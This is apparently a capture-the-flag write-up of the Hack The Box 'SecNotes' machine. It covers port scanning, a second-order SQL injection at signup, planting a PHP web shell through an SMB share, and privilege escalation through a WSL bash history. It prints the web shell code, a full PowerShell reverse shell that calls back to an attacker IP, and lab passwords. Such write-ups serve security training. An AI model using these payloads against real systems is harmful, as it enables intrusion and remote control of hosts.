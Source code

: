 # HTB - SecNotes

#### Ip: 10.10.10.97
#### Name: SecNotes
#### Rating: Medium

----------------------------------------------------------------------

SecNotes.png

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up:

```text
┌──(ryan㉿kali)-[~/HTB/SecNotes]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.97
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-16 14:19 CDT
Nmap scan report for 10.10.10.97
Host is up (0.068s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
8808/tcp open  ssports-bcast

Nmap done: 1 IP address (1 host up) scanned in 13.37 seconds
```

Looks like just a few open ports here. Let dig a bit deeper by using the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/HTB/SecNotes]
└─$ sudo nmap -sC -sV -T4 10.10.10.97 -p 80,445,8808                  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-16 14:22 CDT
Nmap scan report for 10.10.10.97
Host is up (0.067s latency).

PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-title: Secure Notes - Login
|_Requested resource was login.php
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
445/tcp  open  microsoft-ds Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
8808/tcp open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: SECNOTES
|   NetBIOS computer name: SECNOTES\x00
|   Workgroup: HTB\x00
|_  System time: 2023-05-16T12:23:03-07:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-05-16T19:23:04
|_  start_date: N/A
|_clock-skew: mean: 2h20m00s, deviation: 4h02m30s, median: 0s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.15 seconds
```

Checking out the webpage on port 80, we see a simple login page:

login.png

After trying several weak password combos and basic login bypasses via SQL injection, I decided to try creating a new user. But rather than a normal username (admin:password) I tried a second order SQL injection and created a user `' or 1='1` with a password of Password123!. This was an attempt to exploit a SQL injection and get access to the database via a login.

signup.png

It worked! After logging in as the created 'user' I was able to grab what appear to be a username and password: `tyler:92g!mA8BGjOirkL%OG*&`

Lets try to use these credentials with SMB. 

smbmap.png

Cool, I was able to see which shares I can access as user Tyler. What catches my eye is that I have both read and write permissions to the `new-site` share. Lets check that out:

smbclient.png

Interesting, this appears to be a share containing IIS information. Recalling back to our initial Nmap scan I remembered there were two HTTP pages, one on port 80, and the other on port 8808.

Navigating to http://10.10.10.97:8808/ sure enough we find an IIS landing page.

Lets upload a web shell to the SMB share and see if we can get execution that way. 

### Exploitation

Firstly we need to create a file we'll call shell.php

```text
┌──(ryan㉿kali)-[~/HTB/SecNotes]
└─$ cat >> shell.php
<?php echo shell_exec($_GET['cmd']); ?>
```

Next we can upload it to the SMB share using the `put` command:

```text
┌──(ryan㉿kali)-[~/HTB/SecNotes]
└─$ smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site
Try "help" to get a list of possible commands.
smb: \> put shell.php
putting file shell.php as \shell.php (0.2 kb/s) (average 0.1 kb/s)
```
Navigating to the file in the browser we can confirm we now have execution on the machine.

whoami.png

Lets grab a PowerShell reverse shell from https://www.revshells.com/ and URL encode it:

```powershell
powershell -nop -W hidden -noni -ep bypass -c "$TCPClient = New-Object Net.Sockets.TCPClient('10.10.14.19', 443);$NetworkStream = $TCPClient.GetStream();$StreamWriter = New-Object IO.StreamWriter($NetworkStream);function WriteToStream ($String) {[byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0};$StreamWriter.Write($String + 'SHELL> ');$StreamWriter.Flush()}WriteToStream '';while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {$Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1);$Output = try {Invoke-Expression $Command 2>&1 | Out-String} catch {$_ | Out-String}WriteToStream ($Output)}$StreamWriter.Close()"
```

After setting up a netcat listener and issuing the PowerShell one liner as a cmd, we catch a shell back and can grab the user.txt flag:

user_flag.png

### Privilege Escalation

Checking out the contents of `C:\` we see an interesting file, Ubuntu.zip:

ubuntu.png

This makes me wonder if the machine is running Windows Subsystem for Linux. 

After Googling around a bit I find I can access the Linux system at `AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState/rootfs/root`

And sure enough I find I can access the root directory:

root_dir.png

And interestingly, the `.bash_history` file doesn't appear to be empty, or dumping to `/dev/null`:

Taking a look it appears we have an admin credential stored in memory!

```text
SHELL> cat .bash_history
cd /mnt/c/
ls
cd Users/
cd /
cd ~
ls
pwd
mkdir filesystem
mount //127.0.0.1/c$ filesystem/
sudo apt install cifs-utils
mount //127.0.0.1/c$ filesystem/
mount //127.0.0.1/c$ filesystem/ -o user=administrator
cat /proc/filesystems
sudo modprobe cifs
smbclient
apt install smbclient
smbclient
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
> .bash_history 
less .bash_history
exit
```

Lets use impacket-psexec to login and grab the root.txt flag

root_flag.png

That was a super fun box with some interesting concepts in it. It was especially fun working with Windows Subsystem for Linux because I haven't played with that too much and it was great to learn more about it.

Thanks for following along!

-Ryan

-----------------------------------------------------------